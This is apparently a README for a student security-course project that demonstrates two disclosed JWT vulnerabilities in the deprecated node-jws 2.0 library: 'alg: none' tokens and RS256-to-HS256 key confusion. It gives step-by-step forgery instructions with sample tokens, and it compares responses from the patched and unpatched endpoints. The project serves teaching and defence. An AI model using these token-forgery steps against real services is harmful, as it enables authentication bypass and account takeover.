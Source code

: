 # jwt-security-vulnerabilities  
school project for class "security for developers" in 2nd semester of top-up programme at UCN. based on written extended abstract: https://drive.google.com/file/d/1gNvA0Xint7NBhOBOb9H0OPjXazjL4G6B/view?usp=sharing

## description
project demostrates discovered and patched security vulnerabilities in popular node library generating jws by using both latest (secure) version 4.0 (22.11.2021 at the time of writing) and (unsafe) version 2.0 that is now deprecated. first vulnerability origins from using alg header parameter from token instead which can be easily modified by the attacker. second vulnerability origins from the fact that alg can be changed from asymmetric algorithm like rs256 to symmetric one like hs256. since public key is often easily accessible (hence the name) attacker can forge tokens that alters header parameter to alg: hs256 and such token will be considered valid. issue is well described here: https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/. 

### security fix
see how was the issue patched: 
- fix: https://github.com/auth0/node-jws/commit/585d0e1e97b6747c10cf5b7689ccc5618a89b299
- changelog: https://github.com/auth0/node-jws/blob/master/CHANGELOG.md

### setup
1. npm install
2. use npm start to watch files, transpile them to javascript on detected file change and spin web server on port 3000
3. use npm run build to build project (ts -> js)
4. (optional) import postman collection for easy start

### endpoints
1. POST /auth/login - no body required - returns token
2. POST /auth/verify/safe - authorization header with bearer token required - returns 200 or 401
endpoint uses patched safe version of jws library
3. POST /auth/verify/unsafe - authorization header with bearer token required - returns 200 or 401
endpoint uses unpatched unsafe version of jws library (version 2)
4. GET /auth/key - returns public key
5. GET /auth/hacker/base64EncodedHeaderWithAlgNone - returns base64 encoded version of header "{ "alg": "none" }"
6. GET /auth/hacker/tokenFromPublicKey - returns hs256 token that was signed with a public key - accepted by /auth/verify/unsafe endpoint

### steps to exploit header alg none parameter vulnerability
1. obtain token
2. verify that token is accepted by both /auth/verify/safe and /auth/verify/unsafe
3. token can be manipulated by the attacker by changing alg in header to none (obtain from /auth/hacker/base64EncodedHeaderWithAlgNone) and replacing the first part of the token and removing signature part so header.payload.signature becomes newHeader.payload. (notice the trailing dot!!!!)
4. such token is not accepted by /auth/verify/safe but passes as valid in /auth/verify/unsafe
```
POST /auth/login
eyJhbGciOiJSUzI1NiJ9.eyJwYXNzd29yZCI6InBhc3N3b3JkIiwidXNlcm5hbWUiOiJhZG1pbiJ9.V3vtGMj6YXx4y8g3QNvhiI13K1UQtqkMVy6SG8qW7e_2VwHZYvf-uPOZlzoIzV7Z0yKyRQRR1AMPFaIttSaLkw

GET /auth/hacker/base64EncodedHeaderWithAlgNone
eyJhbGciOiJub25lIn0=

# alter the token by replacing the header (first part) and removing signature
eyJhbGciOiJSUzI1NiJ9.eyJwYXNzd29yZCI6InBhc3N3b3JkIiwidXNlcm5hbWUiOiJhZG1pbiJ9.V3vtGMj6YXx4y8g3QNvhiI13K1UQtqkMVy6SG8qW7e_2VwHZYvf-uPOZlzoIzV7Z0yKyRQRR1AMPFaIttSaLkw
=>
eyJhbGciOiJub25lIn0=.eyJwYXNzd29yZCI6InBhc3N3b3JkIiwidXNlcm5hbWUiOiJhZG1pbiJ9.

# verify token with existing endpoints
POST /auth/verify/safe Authorization: eyJhbGciOiJub25lIn0=.eyJwYXNzd29yZCI6InBhc3N3b3JkIiwidXNlcm5hbWUiOiJhZG1pbiJ9. 401
POST /auth/verify/unsafe Authorization: eyJhbGciOiJub25lIn0=.eyJwYXNzd29yZCI6InBhc3N3b3JkIiwidXNlcm5hbWUiOiJhZG1pbiJ9. 200
```

### steps to exploit altering header parameter alg rs256 to alg hs256
1. obtain token
2. verify that token is accepted by both /auth/verify/safe and /auth/verify/unsafe
3. rs256 is asymmetric algorithm requiring key pair - private to sign and public to verify. since the public key is, well, public anyone can ahold of it. jws2.0 considers alg parameter in header as absolute truth therefore forging your own token with public key yields token that passes as valid. to obtain such token call /auth/hacker/tokenFromPublicKey. it creates token from header "{ "alg": "hs256" }", payload and public key as a secret. 
4. such token is not accepted by /auth/verify/safe but passes as valid in /auth/verify/unsafe
```
POST /auth/login
eyJhbGciOiJSUzI1NiJ9.eyJwYXNzd29yZCI6InBhc3N3b3JkIiwidXNlcm5hbWUiOiJhZG1pbiJ9.V3vtGMj6YXx4y8g3QNvhiI13K1UQtqkMVy6SG8qW7e_2VwHZYvf-uPOZlzoIzV7Z0yKyRQRR1AMPFaIttSaLkw

GET /auth/hacker/tokenFromPublicKey
eyJhbGciOiJIUzI1NiJ9.eyJwYXNzd29yZCI6InBhc3N3b3JkIiwidXNlcm5hbWUiOiJhZG1pbiJ9.Zgl3PR_haCrMgSuL6jHLj7efV3iEHleqM_JgMQIs918

POST /auth/verify/safe Authorization: eyJhbGciOiJIUzI1NiJ9.eyJwYXNzd29yZCI6InBhc3N3b3JkIiwidXNlcm5hbWUiOiJhZG1pbiJ9.Zgl3PR_haCrMgSuL6jHLj7efV3iEHleqM_JgMQIs918 401
POST /auth/verify/unsafe Authorization: eyJhbGciOiJIUzI1NiJ9.eyJwYXNzd29yZCI6InBhc3N3b3JkIiwidXNlcm5hbWUiOiJhZG1pbiJ9.Zgl3PR_haCrMgSuL6jHLj7efV3iEHleqM_JgMQIs918 200
```

### source code
all token related code is in src/auth
- src/auth/repository.ts - generating and verifying functions
- src/auth/routes.ts - api endpoints
- src/auth/types.ts - ts typings